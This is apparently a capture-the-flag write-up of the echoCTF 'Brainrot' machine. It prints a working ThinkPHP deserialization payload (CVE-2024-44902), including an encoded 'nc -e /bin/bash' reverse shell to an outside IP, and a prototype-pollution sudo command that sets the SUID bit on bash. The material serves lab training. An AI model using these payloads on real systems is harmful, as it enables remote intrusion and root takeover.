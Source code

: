```yaml
---
description: >-
  Brainrot echoCTF Machine
title: Brainrot (Advanced)                # Add title here
date: 2025-01-26 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Brainrot.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.38
```

### Content

- ThinkPHP Deserialization vulnerability [CVE-2024-44902]
- Protoype Pollution on @bit/loader [CVE-2024-24293]

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Sun Jan 26 23:29:37 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.38
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.38 ()     Status: Up
Host: 10.0.14.38 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-29 00:56:39 EST for 58s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 74:83:fc:82:0e:02:d9:63:59:80:9f:f9:de:31:17:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO40e2JaSpjhdqxYQ6C2x/SBYzN1gMVUESNpCDIJSStS92QBgqpbKSZpZQaFZ2L/m2jucsTRW+48uSqdL0TsrlY=
|   256 cc:8a:34:47:e0:4e:7b:c7:7b:e0:31:56:db:63:2c:b8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOL2ddjfYthCMDlkADh4dnHZ4+TwZXYHrMOhcLxySy2
80/tcp open  http    syn-ack ttl 63 (PHP 8.2.24)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found

|_    Allow:GET, POST, PUT, DELETE
| http-methods: 
|   Supported Methods: GET POST PUT DELETE
|_  Potentially risky methods: PUT DELETE
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

### Exploitation

Only HTTP port open, with the following number, which seems to be a version:

![](/assets/img/Pasted-image-20250126223838.png)

Then we have enough information to lookup for the name of the technology running on this port, and the only perfect match is ThinkPHP:

![](/assets/img/Pasted-image-20250126223454.png)

While investigating, I found a vulnerability [CVE-2024-44902](https://github.com/advisories/GHSA-f4wh-359g-4pq7) on ThinkPHP version 8.0.4:

![](/assets/img/Pasted-image-20250126224019.png)

The payload is an image so I have to extract the data from it, the OS command within the payload is `whoami`:
```bash
```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
``````

And then the payload retrieves the information as follows:

![](/assets/img/Pasted-image-20250126230927.png)

Now the interesting part here, is that you need to provide the length of the payload you want to execute (number 6 for whoami), prior to sent the payload:

![](/assets/img/Pasted-image-20250126234525.png)

So in order to get a reverse shell, we get the length of the string and then change it by the 32 instead:

![](/assets/img/Pasted-image-20250126234859.png)

This is the final payload I used:

```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A32%3A%22%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%30%2e%31%30%2e%35%2e%31%32%32%20%31%32%33%34%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

### Privilege Escalation
There is a binary that can be executed as Sudo without credentials:
![](/assets/img/Pasted-image-20250126235201.png)

The content of such binary is this:
![](/assets/img/Pasted-image-20250126235216.png)

There is a Prototype Pollution vulnerability on `@bit/loader`:

![](/assets/img/Pasted-image-20250126235402.png)

After several attempts and also a good chatGPT aid, I came with the following payload:
```bash
www-data@brainrot:/$ sudo /usr/local/bin/bitrot '{"__proto__": {"is_admin": true, "properties": {"username": "ebbg", "cmd": "require(\"child_process\").exec(\"chmod +s /bin/bash\")"}}}'

```
That allows us to run `/bin/bash` as root:
```bash
www-data@brainrot:/$ /bin/bash -p
bash-5.2# whoami
root
```

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials

No credentials were found on this machine.

### Notes

-  For Prototype Pollution attacks, specially if this are crafted with JSON, it is really important to escape key chars such as doble quote ("), because the payload sometimes is not working while trying to exploit this vulnerability. 

### References

- [CVE-2024-44902](https://github.com/advisories/GHSA-f4wh-359g-4pq7)
- [Protoype Pollution on @bit/loader](https://security.snyk.io/vuln/SNYK-JS-BITLOADER-6928980)
- [ThinkPHP Deserialization vulnerability](https://github.com/fru1ts/CVE-2024-44902)

